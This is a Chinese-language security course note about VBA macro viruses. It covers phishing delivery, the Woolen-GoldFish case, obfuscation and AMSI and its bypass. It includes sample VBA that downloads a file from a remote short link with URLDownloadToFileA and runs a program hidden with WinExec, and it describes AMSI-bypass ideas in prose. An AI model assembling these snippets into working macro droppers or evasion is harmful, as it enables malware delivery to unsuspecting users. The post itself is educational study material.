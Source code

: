 ```yaml
---
layout: post
title:  "VBA macro virus"
date:   2020-11-07 21:44:00
categories: CyberSecurity
tags: Course
---
```


### VBA macro

macro(巨集)是一種自動化的script, 尤其用於windows系統的word,ppt,excel等等office工具裡. 目的是讓很多行為能夠自動化,讓使用者能夠更簡單快速使用一些tool. 某方面可以想像成快捷鍵的概念, 把一堆你常用的指令,例如ppt加上新的slide和模板,文字等等的弄成一個腳本(巨集),之後可以透過點選巨集或者執行script方式自動做這些事情,使用者就不用人工自己新增slide和模板.

Virtual Basic for applications(VBA)就是上述講到office工具自動化腳本的程式語言.

詳細語法請參考[VBA in-depth introduction](https://www.trustedsec.com/blog/malicious-macros-for-script-kiddies/)

### Macro Virus

就上述所說, vba script是一個自動化script幫助使用者自動化某些用office工具時常做的事情. 但vba script能做的事不只單純自動化步驟,他還能import其他windows的library或者執行windows的API,例如以下例子<br />
利用WMI的api來讀取目前的running process

```
Sub GetProcessList()
    Set objServices = GetObject("winmgmts:\.\root\CIMV2")
    Set objProcessSet = objServices.ExecQuery( _
        "SELECT Name FROM Win32_Process", , 48)
    For Each Process In objProcessSet
        Debug.Print "Process: " & Process.name
    Next
End Sub
```

此外vba還能夠儲存檔案或者呼叫惡意的DLL,連線到c2 server,能做的事情非常多,也因此除了能竊取電腦上的資訊外,也能執行已經在電腦裡的惡意程式或者dll2的部分. 原先目的是為了方便存取遠端的xml檔,但也允許了下載遠方惡意程式碼的可能.

從遠端把檔案載下來

```
Declare PtrSafe Function URLDownloadToFileA Lib "urlmon" ( _
    ByVal pCaller As LongPtr, _
    ByVal szURL As String, _
    ByVal szFileName As String, _
    ByVal dwReserved As Long, _
    ByVal lpfnCB As LongPtr _
) As Long

Sub DownloadFile()
     URLDownloadToFileA 0, "https://bit.ly/2B1GCyQ", "ts.jpg", 0, 0
End Sub
```

執行惡意程式碼

```
Declare Function WinExec Lib "kernel32" ( _
     ByVal lpCmdLine As String, _
     ByVal nCmdShow As Long _
) As Long

Const SHOW_HIDE As Long = 0

Sub ExecuteFile ()
     WinExec "C:\Windows\System32\notepad.exe", SHOW_HIDE
End Sub
```

`All the code in this section credit to trustedsec.com`

#### Phishing

但要執行Macro virus一個先決條件就是要執行他,他不是直接下載到電腦上就會自動執行的script, 像剛剛所說他是為了方便ppt, word這類工具自動化, 所以其實vba script更多是存在doc,ppt的檔案內. 當使用者點開這些檔案後,電腦理論上會詢問是否要執行檔案裡的巨集,就是在問是否要執行這些script. 點選同意才會執行這些script. 因此整個流程就會很像釣魚, 要設法讓使用者上當點開word,ppt並且同意巨集的執行才有機會執行到macro virus.

因此基本上macro virus的傳播就是透過檔案傳送給使用者, 使用者點開才會有用, 它不能像wannaCry那樣自動去感染其他電腦.

### CaseStudy: Woolen-GoldFish

這是一個2014年典型的macro virus的攻擊手法<br />
1. 使用者收到釣魚信件,裡面有excel的attachment, excel內涵有惡意的macro
2. 使用者下載並點開excel, macro virus執行, 從遠端下載惡意DLL(or somehow也附在信件裡了)
3. Macro執行惡意DLL

![](/assets/images/notes/security/4-1.jpg)


### Obfustication

單純vba這樣的作法一定很容易就被防毒軟體察覺出來, 因此有些obfusticate的方法來bypass antimalware<br />
reference裡提供一種VBad tool, 他會把出現在vba script裡的string都做xor加密, 然後把vba裡的token(function name, variable name做renaming).<br />
其餘還有像是vba script allocate一塊virtual memory, 動態載入惡意script到memory, 導致整段惡意程式行為從來就不是以檔案方式在電腦,也沒有進去disk過,而是直接出現在memory端(reference:[MicroSoft AMSI](https://www.microsoft.com/security/blog/2018/09/12/office-vba-amsi-parting-the-veil-on-malicious-macros/)) ,因此靜態偵測是不容易發現的.

### AMSI

Antimalware Scan Interface(AMSI) 是一個windows內部的防毒的service. 他能夠有效的偵測macro的malware, 就算這些malware有做obfusticate. 因為他是做dynamic analysis, AMSI除了看vba script的pattern外,也會動態去看他執行那些function,system call藉此來擋住macro virus, 這也是macro virus式微的一個原因(當然更早前微軟就有針對這個病毒做很多的防護)

![](/assets/images/notes/security/4-2.jpg)


### AMSI bypass

不少研究人員也開始想說有沒有辦法bypass AMSI的偵測.<br />
一種方法是script呼叫AMSI本身的library function硬把判斷程式惡意程度的function call return值改成0(`AMSIScanBuffer`),但這並沒有辦法bypass AMSI的scanning(因為AMSI知道後當然也會特別關注這樣的行為的程式R...), 但主要概念就是利用這種方式把AMSI對程式的評分降成0(代表非惡意程式), 詳細可以參照Reference

#### Reference

[AMSI bypass](https://medium.com/maverislabs/yet-another-update-to-bypass-amsi-in-vba-19ddf9065c04)<br />
[heap-based AMSI bypass](https://codewhitesec.blogspot.com/2019/07/heap-based-amsi-bypass-in-vba.html)<br />
[AMSI bypass-2](https://secureyourit.co.uk/wp/2019/05/10/dynamic-microsoft-office-365-amsi-in-memory-bypass-using-vba/)


### Reference

[VBA in-depth introduction](https://www.trustedsec.com/blog/malicious-macros-for-script-kiddies/)<br />
[VBad obfustication tool](https://github.com/Pepitoh/VBad)<br />
[TrendMicro W97M cases](https://blog.trendmicro.com.tw/?p=12518)<br />
[Woolen-GoldFish](https://www.trendmicro.com/vinfo/us/security/news/cyber-attacks/operation-woolen-goldfish-when-kittens-go-phishing)<br />
[TrendMicro Woolen-GoldFish Full Doc](https://www.trendmicro.com.ru/media/wp/operation-woolen-goldfish-whitepaper-en.pdf)<br />
[MicroSoft AMSI](https://www.microsoft.com/security/blog/2018/09/12/office-vba-amsi-parting-the-veil-on-malicious-macros/)